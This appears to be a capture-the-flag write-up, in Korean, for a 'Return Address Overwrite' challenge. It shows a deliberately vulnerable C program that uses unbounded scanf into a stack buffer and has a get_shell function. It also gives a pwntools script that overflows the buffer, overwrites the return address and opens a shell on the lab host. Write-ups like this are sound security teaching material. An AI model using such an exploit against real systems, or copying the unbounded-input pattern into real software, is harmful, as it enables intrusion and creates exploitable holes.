 ## Return Address Overwrite
---

```c
// Name: rao.c
// Compile: gcc -o rao rao.c -fno-stack-protector -no-pie

#include <stdio.h>
#include <unistd.h>

void init() {
  setvbuf(stdin, 0, 2, 0);
  setvbuf(stdout, 0, 2, 0);
}

void get_shell() {
  char *cmd = "/bin/sh";
  char *args[] = {cmd, NULL};

  execve(cmd, args, NULL);
}

int main() {
  char buf[0x28];

  init();

  printf("Input: ");
  scanf("%s", buf);

  return 0;
}
```

<br><br>

## Solution
---

local에서 파일을 gdb로 분석해서 get_shell 함수의 주소를 알아낸 뒤, gdb로 분석해보면 입력값을 rbp-0x30에서 받는다.

따라서 0x30만큼 값을 넣고, sfp 8바이트를 채워준 뒤, 리턴 주소에 get_shell 주소를 넣어주면 된다.

<br>

```python
from pwn import *

p = remote('host3.dreamhack.games', 13357)

get_shell_addr = p64(0x4006aa)

payload = b"a"*0x30 + b"b"*8 + get_shell_addr
p.sendlineafter(":",payload)
p.interactive()
```

